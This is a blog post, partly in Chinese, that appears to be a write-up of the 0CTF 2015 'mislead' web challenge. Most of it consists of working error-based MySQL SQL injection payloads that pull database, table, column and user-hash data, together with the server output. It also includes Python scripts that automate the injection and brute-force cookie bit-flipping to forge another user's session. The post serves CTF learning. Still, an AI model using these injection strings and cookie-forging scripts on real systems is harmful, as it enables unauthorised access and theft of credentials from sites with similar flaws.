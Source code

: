 ```yaml
---
title: mis_lead
author: tank96a
layout: post
categories:
  - article
tags:
  - web
---
```


详见[原文链接](http://www.pwntester.com/blog/2015/03/30/0ctf-2015-mislead-web-300/)

 `Duplicate entry technique` 经典注入语句
 
Get the DB:
{% highlight php %}
username=pwner10&password='),(select 1 FROM(select count(*),concat((select (select concat(database())) FROM information_schema.tables LIMIT 0,1),floor(rand(0)*2))x FROM information_schema.tables GROUP BY x)a) );#&submit=Submit
{% endhighlight %}

Output:

SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry `'mislead1'` for key 'group_key'<br>maybe another username?  

Get the tables:
{% highlight php %}
username=pwner10&password='),(select 1 from (select count(*),concat((select(select concat(cast(table_name as char),0x7e)) from information_schema.tables where table_schema=database() limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)  
 );#&submit=Submit
{% endhighlight %}
Output:

SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry `'users~1'` for key 'group_key'<br>maybe another username?  

Get the columns:
{% highlight php %}
username=pwner10&password='),(select 1 from (select count(*),concat((select(select concat(cast(column_name as char),0x7e)) from information_schema.columns where table_name='users' limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)  );#&submit=Submit  
{% endhighlight %}
Output:

SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry `'id~1'` for key 'group_key'<br>maybe another username?

SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry `'username~1'` for key 'group_key'<br>maybe another username?

SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry `'password~1'` for key 'group_key'<br>maybe another username?  

Get the first user:
{% highlight php %}
 username=pwner10&password='),(select 1 from (select count(*),concat((select(select concat(cast(concat(username,0x7e,password) as char),0x7e)) from users limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)   );#&submit=Submit
{% endhighlight %}
Output:

SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry `'0ops~13096de41fe9a97b700d4d9e21665484~1'` for key 'group_key'<br>maybe another username?  

We decide to flip bits in the cookie to see if which byte can change the login name, then found the 14th byte make it. the logging message changes and our names is modified. Cool! So we can try to bit-flip the cookie and get the username to be 0ops. For that, the easiest way is to register a name very similar (just one letter off) and bit-flip that byte until we get the right name.

在cookies中寻找关键字节的开始位置，用户名会随着这个字节的改变而改变，这个就是可以爆破的位置。
先爆破一个和目标用户名只差一个字母的用户的cookies值：

{% highlight python %}
import requests  
url = 'http://202.112.26.101//mislead/register.php'  
for i in xrange(4000):  
    data = {
        'username': 'pwntester',
        'password': "'),(select 1 from (select count(*),concat((select(select concat(cast(concat(username,0x7e,password) as char),0x7e)) from users limit %d,1),floor(rand(0)*2))x from information_schema.tables group by x)a));#" % i,
        'submit': 'Submit',
    }
    res = requests.post(url, data=data)
    if "ops~" in res.text:
        print res.text
{% endhighlight %}

先找到cookies中的关键字节位置，然后在该位置爆破出目标cookies值。

{% highlight python %}
import requests  
from base64 import b64decode, b64encode  
#from hexdump import hexdump  
import sys  
import string

url = 'http://202.112.26.101//mislead/index.php'  
OopsCookie = 'YWVkMTM0MjNjYWZkY2IyMDgxODExNDcwM2E1ODY2NWZhYTAzMzY3ZjQ1ZjFjMjQxNmQxNjRjNGM1ZGM0ZDEwZA=='  
binCookie = b64decode(OopsCookie).decode("hex")  
bytelength = len(binCookie)

def is_printable(s):  
    for ch in s:
        if not ch in string.printable:
            return False
    return True

def flip_byte(msg, pos, byte=0x10):  
    msg = msg[:pos] + chr(ord(msg[pos]) ^ byte) + msg[pos+1:]
    return msg

for i in xrange(bytelength):  
    res = requests.get(url, cookies={'auth': b64encode(flip_byte(binCookie, i).encode("hex"))})
    print i, res.text
    if "Hello" in res.text and "Oops" not in res.text:
        for c in xrange(256):
            res = requests.get(url, cookies={'auth': b64encode(flip_byte(binCookie, i, c).encode("hex"))})
            if is_printable(res.text):
                print i, c, res.text
{% endhighlight %}

感想：不能简单从cookies的长度来判断加密类型，容易陷入思维定势；经典的注入语句要记住；requests这个linux下的python模块确实简单好用。





